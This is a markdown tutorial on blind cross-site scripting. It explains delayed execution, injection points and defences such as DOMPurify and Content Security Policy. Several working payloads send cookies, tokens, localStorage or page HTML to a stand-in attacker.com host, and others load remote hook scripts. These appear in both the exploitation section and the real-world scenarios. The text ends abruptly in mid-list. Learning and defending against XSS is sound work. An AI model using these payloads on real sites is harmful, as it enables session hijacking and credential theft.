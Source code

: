 

# **Blind XSS (In-Depth)**

## **Introduction to Blind XSS**
Blind XSS is a type of Cross-Site Scripting (XSS) attack where the attacker's payload is stored and executed in a different context than where it was injected, often in an admin panel or backend system. Unlike traditional stored XSS, the attacker does not immediately see the result of the payload execution.

### **Key Characteristics:**
- **Delayed Execution**: The payload triggers at a later time when accessed by another user (e.g., an admin).
- **No Immediate Feedback**: The attacker does not see the response directly.
- **Harder to Detect**: Since the payload executes in a different context, traditional scanners may miss it.

---

## **How Blind XSS Works**
1. **Payload Injection**: Attacker submits malicious input (e.g., via contact forms, comments, or user profiles).
2. **Storage on Server**: The input is stored in a database or log file.
3. **Triggered Execution**: When an admin or another privileged user views the stored data, the payload executes.
4. **Exfiltration of Data**: The payload sends sensitive information (cookies, session tokens) back to the attacker.

---

## **Common Attack Vectors**
1. **Admin Dashboards**  
   - Admin panels often review user-submitted data (e.g., support tickets, logs).
2. **Log Files**  
   - Web servers store logs that may include malicious input.
3. **User Profiles**  
   - Some systems allow HTML/JS in profile fields that admins review.
4. **Feedback Forms**  
   - Attackers submit malicious scripts that execute when reviewed.

---

## **Exploiting Blind XSS**
### **(1) Crafting Payloads**
Since feedback is delayed, attackers use callback mechanisms:
```html
<script>
  fetch('https://attacker.com/steal?data=' + document.cookie);
</script>
```
Or use services like:
- **[XSS Hunter](https://xsshunter.com/)** – Automates blind XSS detection.
- **[Interact.sh](https://interact.sh/)** – Checks for out-of-band interactions.

### **(2) Testing with Delayed Callbacks**
Instead of `alert()`, use:
```javascript
new Image().src="http://attacker.com/log?data="+encodeURIComponent(document.cookie);
```


---

### **(3) Advanced Payload Techniques**  
Blind XSS often requires evasion and persistence:  
- **DOM-Based Exfiltration**:  
  ```javascript
  document.addEventListener('DOMContentLoaded', () => {
    navigator.sendBeacon('https://attacker.com/collect', window.location.href);
  });
  ```
- **Session Hijacking**:  
  ```javascript
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({cookie: document.cookie, localStorage: localStorage})
  });
  ```

- **Delayed Triggers**:  
  ```javascript
  setTimeout(() => {
    window.location.href = 'https://attacker.com/redirect?data=' + btoa(document.documentElement.innerHTML);
  }, 5000); // Executes after 5 seconds
  ```

---

### **(4) Using Blind XSS Tools**  
Automate detection with:  
- **XSS Hunter** – Hosted service that captures callbacks (screenshots, cookies, DOM).  
- **Burp Collaborator** – Built into Burp Suite for out-of-band testing.  

Example payload for XSS Hunter:  
```html
<script src="https://xsshunter.com/yourpayload.js"></script>
```

---

## **Defending Against Blind XSS**  

### **(1) Input Sanitization**  
- Use libraries like `DOMPurify` to sanitize HTML/JS in user inputs.  
- Encode outputs with context-aware escaping (HTML, JavaScript, URL).  

### **(2) Content Security Policy (CSP)**  
Restrict script execution:  
```http
Content-Security-Policy: default-src 'self'; script-src 'none'; connect-src 'none';
```
Prevents data exfiltration via `fetch()` or `<img src="attacker.com">`.  

### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain text in admin dashboards.  
- Use iframes with sandbox attributes for unsafe content.  

---

## **Real-World Examples**  


### **1. Ticket Support Systems (Zendesk, Freshdesk)**
- **Scenario**: An attacker submits a malicious ticket with a JavaScript payload in the "description" field.
- **Execution**: When a support agent views the ticket in the admin panel, the payload executes, stealing their session cookie.
- **Impact**: Attacker gains unauthorized access to the support system and potentially customer data.

**Payload Used**:
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
```

---

### **2. Web Application Logs (Apache/Nginx)**
- **Scenario**: An attacker injects a payload into HTTP headers (e.g., `User-Agent` or `Referer`).
- **Execution**: The payload is stored in server logs. When an admin reviews logs via a web interface, the script triggers.
- **Impact**: Sensitive server/application data is exfiltrated.

**Payload Used**:
```javascript
<img src=x onerror="navigator.sendBeacon('https://attacker.com/log', window.location.href)">
```

---

### **3. User Profiles with Admin Moderation**
- **Scenario**: A social media platform allows users to embed HTML in bios, which admins review before approval.
- **Execution**: The attacker submits a malicious profile with a hidden XSS payload. When an admin views it, the script runs.
- **Impact**: Admin accounts are compromised, leading to privilege escalation.

**Payload Used**:
```html
<svg onload="fetch('https://attacker.com/hijack?data=' + localStorage.getItem('token'))">
```

---

### **4. CMS Admin Panels (WordPress, Joomla)**
- **Scenario**: A WordPress plugin stores unfiltered user comments in the database.
- **Execution**: The payload fires when an admin reviews "pending comments" in `/wp-admin`.
- **Impact**: Attackers gain admin access to the CMS.

**Payload Used**:
```javascript
<script src="https://xsshunter.com/wordpress_hook.js"></script>
```

---

## **Why Blind XSS is Dangerous**
1. **Stealthy Persistence**: Payloads can remain dormant for weeks until triggered.
2. **High Impact Targets**: Often exploits privileged users (admins, auditors).
3. **B
St